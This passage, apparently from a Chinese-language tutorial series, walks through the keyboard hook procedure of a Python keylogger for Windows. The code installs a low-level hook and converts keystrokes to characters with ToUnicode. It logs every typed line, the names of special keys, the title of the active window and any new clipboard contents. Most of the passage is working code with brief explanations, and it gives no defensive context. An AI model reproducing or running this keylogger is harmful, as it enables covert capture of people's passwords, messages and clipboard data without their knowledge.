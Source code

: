 ## 五、键盘事件发生调用的钩子程序

声明全局变量，这样每次点击按键时被清空。

```python
def hook_procedure(nCode, wParam, lParam):

    global last_key
    global current_clipboard
    global line
    global current_window
```

与part1同，我们需要知道用户键入时当前窗口，以便我们如果使用检索到的数据。每当按下特定键里，我们可以使用函数来卸载钩子(此处为`CONTROL`)

```python
if current_window != get_current_window():    #判断current_window内容不是当前打开的窗口
    current_window = get_current_window()    #将窗口标题放在current_window中
    logging.info('[WINDOW] ' + current_window)    #将当前窗口标题写入日志文件


#如果你在测试时想卸载钩子，请删除下面注释
"""
if user32.GetKeyState(VIRTUAL_KEYS['CONTROL']) & 0x8000:
    hook.uninstall_hook()
    return 0
"""
```

```python
if nCode == HC_ACTION and wParam == WM_KEYDOWN:
    kb = KBDLLHOOKSTRUCT.from_address(lParam)
    user32.GetKeyState(VIRTUAL_KEYS['SHIFT'])
    user32.GetKeyState(VIRTUAL_KEYS['MENU'])
    state = (c_char * 256)()
    user32.GetKeyboardState(byref(state))
    buff = create_unicode_buffer(8)
    n = user32.ToUnicode(kb.vkCode, kb.scanCode, state, buff, 8 - 1, 0)    #ToUnicode返回值：-1/一个死键,0/不进行任何转换,1/一个字符,>=2/两个或多个字符
    key = wstring_at(buff)
```

这里的逻辑是，当按下一个键时，我们调用之前创建的类from_address来获取有关键盘事件的信息，并将其`kb`作为数据结构存储在变量中`KBDLLHOOKSTRUCT`。创建一个`state`大小为256的变量来保存所有256个虚拟键的状态。这里调用GetKeyboardState()函数来完成。然后我们声明一个`Buff`变量以创建Unicode字符缓冲区(具有wchar数据类型的值的数组)。我们使用ToUnicode函数将虚拟按键代码或键盘状态转换为Unicode字符，然后使用`wstring_at()`将字符存储为1个字符的Unicode字符串。

`ToUnicode`返回值存储在n中。每当按下一个键里钩子过程会存储一个返回值，我们可以使用它来确定是否记录字符。只要n大于0，我们就记录按下的键。
```python
    if n > 0:
        if kb.vkCode not in VIRTUAL_KEYS.values():    #如果键入非特殊键，则加入line变量
            line += key

        for key, value in VIRTUAL_KEYS.items():    #如果键入特殊键，则记录特殊键名
            if kb.vkCode == value:
                logging.info(key)

        if kb.vkCode == VIRTUAL_KEYS['RETURN']:    #如果键入RETURN，则记录并清除line变量
            logging.info(line)
            line = ""

        if current_clipboard != get_clipboard():    #如果剪贴板中有新数据，则记录该数据
            current_clipboard = get_clipboard()
            logging.info('[CLIPBOARD] ' + current_clipboard + '\n')

return user32.CallNextHookEx(hook.is_hooked, nCode, wParam, lParam)    #将钩子信息传递给下个钩子过程CallNextHookEx
```
